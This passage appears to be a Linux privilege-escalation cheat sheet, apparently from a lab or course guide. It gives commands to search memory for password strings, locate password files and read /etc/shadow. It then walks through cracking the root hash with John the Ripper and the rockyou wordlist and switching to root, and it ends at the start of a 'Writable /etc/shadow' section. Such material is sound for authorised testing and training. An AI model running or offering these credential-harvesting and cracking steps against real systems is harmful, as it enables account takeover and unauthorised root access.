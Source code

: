 
### LAST EDITED FILES

Files that were edited in the last 10 minutes

```
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

```

### IN MEMORY PASSWORDS

```
strings /dev/mem -n10 | grep -i PASS

```

### FIND SENSITIVE FILES

```
$ locate password | more 
/etc/passwd
/etc/passwd-
/etc/alternatives/vncpasswd
/etc/alternatives/vncpasswd.1.gz
/etc/exim4/passwd.client
/etc/pam.d/chpasswd
/etc/pam.d/passwd
```

### Weak File Permissions Readable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

you can check whether it is readable by normal user or not by the following command

`ls -l /etc/shadow`

View the contents of the /etc/shadow file:

`cat /etc/shadow`

Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali  VM  and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Switch to the root user, using the cracked password:

`su root`

### Writable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.
